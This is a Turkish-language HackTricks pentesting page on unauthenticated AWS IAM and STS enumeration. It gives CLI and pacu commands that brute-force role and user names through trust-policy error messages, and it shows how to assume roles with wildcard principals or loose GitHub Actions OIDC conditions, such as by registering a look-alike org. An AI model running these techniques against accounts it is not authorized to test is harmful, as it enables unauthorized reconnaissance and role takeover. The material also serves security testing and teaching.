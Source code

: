 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin**.
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## Bir hesaptaki Rolleri ve Kullanıcı Adlarını Numaralandırma

### ~~Assume Role Brute-Force~~

{% hint style="danger" %}
**Bu teknik artık çalışmıyor** çünkü rol var olup olmadığına bakılmaksızın her zaman bu hatayı alırsınız:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

**Bunu test edebilirsiniz**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Gerekli izinler olmadan bir rolü **üstlenmeye çalışmak** bir AWS hata mesajını tetikler. Örneğin, yetkisizseniz, AWS şu hatayı döndürebilir:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Bu mesaj, rolün varlığını doğrular ancak rolün üstlenme politikasının sizin üstlenmenize izin vermediğini belirtir. Buna karşılık, **var olmayan bir rolü üstlenmeye çalışmak farklı bir hataya yol açar**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
İlginç bir şekilde, **mevcut ve mevcut olmayan rolleri ayırt etme** yöntemi, farklı AWS hesapları arasında bile uygulanabilir. Geçerli bir AWS hesap kimliği ve hedeflenen bir kelime listesi ile, hesapta bulunan rolleri herhangi bir doğal sınırlama olmaksızın listeleyebilirsiniz.

Bu sorunu kötüye kullanarak [potansiyel principal'ları listelemek için bu script'i kullanabilirsiniz](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum).

### Trust Policies: Brute-Force Cross Account rolleri ve kullanıcıları

Bir **IAM rolünün trust policy'sini yapılandırmak veya güncellemek, bu rolü üstlenmesine ve geçici kimlik bilgileri elde etmesine izin verilen AWS kaynaklarını veya hizmetlerini tanımlamayı içerir**. Politikada belirtilen kaynak **varsa**, trust policy **başarıyla** kaydedilir. Ancak, kaynak **yoksa**, **geçersiz bir principal sağlandığını belirten** bir **hata oluşur**.

{% hint style="warning" %}
Bu kaynakta bir cross account rolü veya kullanıcı belirtebileceğinizi unutmayın:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Bu bir politika örneğidir:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Bu, **var olmayan bir rol** kullanırsanız karşılaşacağınız **hata**dır. Eğer rol **varsa**, politika herhangi bir hata olmadan **kaydedilecektir**. (Hata güncelleme için geçerlidir, ancak oluşturma sırasında da çalışır)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Bu süreci [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools) ile otomatikleştirebilirsiniz.

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

[https://github.com/RhinoSecurityLabs/pacu](https://github.com/RhinoSecurityLabs/pacu) kullanarak:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Örnekte kullanılan `admin` rolü, pacu tarafından impersonate edilerek enumeration için gerekli politikaları oluşturmak amacıyla **hesabınızdaki bir roldür**.

### Privesc

Rol yanlış yapılandırılmışsa ve herhangi birinin onu üstlenmesine izin veriyorsa:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Saldırgan bunu sadece varsayabilir.

## Üçüncü Taraf OIDC Federasyonu

Bir **Github Actions workflow**'unu okuyabildiğinizi ve bunun **AWS** içinde bir **role** eriştiğini hayal edin.\
Bu güven, aşağıdaki **trust policy** ile bir role erişim sağlayabilir:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Bu trust policy doğru olabilir, ancak **daha fazla koşulun eksikliği** size güven vermemelidir.\
Bunun nedeni, önceki rolün **Github Actions'dan HERHANGİ BİRİ tarafından** üstlenilebilmesidir! Koşullarda ayrıca org adı, repo adı, env, brach gibi diğer şeyleri de belirtmelisiniz...

Başka bir potansiyel yanlış yapılandırma, aşağıdaki gibi bir **koşul eklemektir**:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
**Dikkat**: **İki nokta üst üste** (:) öncesinde **wildcard** (\*) bulunur. **org\_name1** gibi bir organizasyon oluşturabilir ve Github Action'dan **rol üstlenebilirsiniz**.

## Referanslar

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **bizi takip edin**.
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}

